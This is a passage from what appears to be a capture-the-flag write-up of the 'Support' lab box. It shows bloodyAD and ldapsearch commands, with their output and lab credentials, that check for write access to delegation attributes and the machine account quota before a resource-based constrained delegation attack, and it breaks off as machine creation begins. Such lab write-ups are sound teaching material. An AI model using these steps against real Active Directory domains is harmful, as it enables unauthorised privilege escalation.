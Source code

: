 Let's test if we have writeable `msDS-AllowedToActOnBehalfOfOtherIdentity`. Using bloodyAD:

```bash
bloodyAD -d support.htb -u support -p 'Ironside47pleasure40Watchful' --host 10.10.11.174 get writable --detail

distinguishedName: CN=DC,OU=Domain Controllers,DC=support,DC=htb
<SNIP>
msDS-AllowedToActOnBehalfOfOtherIdentity: WRITE
<SNIP>
```

#### LDAP Query for Machine Quota

Let's check if we have the quota for machine creation:

```bash
ldapsearch -H ldap://10.10.11.174 \
  -D "ldap@support.htb" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' \
  -b "DC=support,DC=htb" \
  "(objectClass=domain)" ms-DS-MachineAccountQuota
# extended LDIF
#
# LDAPv3
# base <DC=support,DC=htb> with scope subtree
# filter: (objectClass=domain)
# requesting: ms-DS-MachineAccountQuota 
#

# support.htb
dn: DC=support,DC=htb
ms-DS-MachineAccountQuota: 10

# search reference
ref: ldap://ForestDnsZones.support.htb/DC=ForestDnsZones,DC=support,DC=htb

# search reference
ref: ldap://DomainDnsZones.support.htb/DC=DomainDnsZones,DC=support,DC=htb

# search reference
ref: ldap://support.htb/CN=Configuration,DC=support,DC=htb

# search result
search: 2
result: 0 Success

# numResponses: 5
# numEntries: 1
# numReferences: 3
```

#### impacket-addcomputer

Let's start creating a Machine:
